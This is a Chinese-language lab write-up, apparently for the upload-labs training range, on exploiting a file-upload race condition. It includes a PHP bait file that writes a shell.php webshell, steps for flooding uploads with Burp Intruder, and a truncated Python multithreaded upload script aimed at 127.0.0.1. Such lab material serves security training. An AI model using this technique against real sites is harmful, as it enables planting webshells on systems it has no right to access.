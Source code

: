 其中，诱饵上传文件代码

```php
<?php

$myfile = fopen("shell.php", "w") or die("Unable to open file!");

$txt = "<?php  phpinfo();   ?>\n";

fwrite($myfile, $txt);

fclose($myfile);

?>
```

然后，如果已知新建文件的路径，可以直接访问

​            如果不知道，可以抓取数据包查看



**方法：**

1.利用burp的Intruder使用多线程发包(如下图)，

2.然后不断在浏览器访问我们的webshell，会有一瞬间的访问成功。（即当线程足够的时候 ，将可能会跳过某个步骤，而直接访问到我们的 webshell，新文件也会创建成功 )

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20200218222719652_1510553817.png" />





**F2:**   Python

```python
\#!/usr/bin/env python3

\# coding:utf-8



import hackhttp

from multiprocessing.dummy import Pool as ThreadPool





def upload(lists):

​    hh = hackhttp.hackhttp()

​    raw = """POST /upload-labs/Pass-17/index.php HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Referer: http://127.0.0.1/upload-labs/Pass-18/index.php

Cookie: pass=18
```